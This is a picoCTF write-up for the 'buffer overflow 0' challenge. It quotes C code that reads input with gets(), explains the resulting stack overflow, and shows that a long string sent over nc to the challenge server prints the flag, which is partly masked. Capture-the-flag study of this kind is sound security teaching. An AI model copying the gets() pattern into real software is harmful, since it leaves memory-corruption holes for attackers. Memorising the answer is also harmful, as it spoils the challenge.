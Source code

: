 # picoCTF: buffer overflow 0
### Description
Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available  [here](https://artifacts.picoctf.net/c/523/vuln). You can view source  [here](https://artifacts.picoctf.net/c/523/vuln.c). And connect with it using:`nc saturn.picoctf.net 64712`

<details closed>
<summary>Solution</summary>
  
  
### Flag
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```
### Detailed Solution
Let's analyze this `.c` file we have as reference.
```c
printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
```
We see that the `gets()` function is called. This function is really, really bad (in addition to being deprecated) as it will write the user's input to the stack without regard to its length, meaning a user's input can exceed its allocated space. We should be able to trigger the flag print by simply inputting a string that is longer than the specified length of 16 in the `vuln` function:
```
# nc saturn.picoctf.net 64712
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```
</details>